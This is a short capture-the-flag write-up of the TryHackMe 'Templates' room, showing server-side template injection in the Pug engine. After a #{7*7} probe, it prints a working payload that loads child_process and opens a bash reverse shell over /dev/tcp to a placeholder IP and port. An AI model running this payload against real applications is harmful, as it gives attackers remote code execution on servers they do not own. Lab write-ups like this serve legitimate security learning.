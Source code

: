 # TryHackMe Templates Room
[Template Room Link](https://tryhackme.com/room/templates)
<H6>Introduction</H6>
My favourite type of dog is a pug... and, you know what, Pug is my favourite templating engine too! I made this super slick application so you can play around with Pug and see how it works. Seriously, you can do so much with Pug!.

First thing first i did is to research about the Pug template engine becasue this is my first time i heard it. After reasearching from the documentation of the [Pug official](https://pugjs.org/api/getting-started.html), im sure we can do SSTI.

![](Images/Template-Image-1.png)

from the above image we can do SSTI with #{injection}, for the first payload i will test it with using 
```Js
#{7\*7}
```

![](Images/Template-Image-2.png)

then click convert will return this

![](Images/Template-Image-3.png)

after that we can further attack with different payload that can help up find the flag. In this case, i will try to make reverse shell that will connect to my computer with this payload
```Js
h1 #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('bash -c "exec bash -i &>/dev/tcp/IP/PORT <&1"')}()}
```
that payload will make connection back to our computer we thay render the code

![](Images/Template-Image-4.png)

<H4>Link that can Help</H4>

[SSTI Cheat Sheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
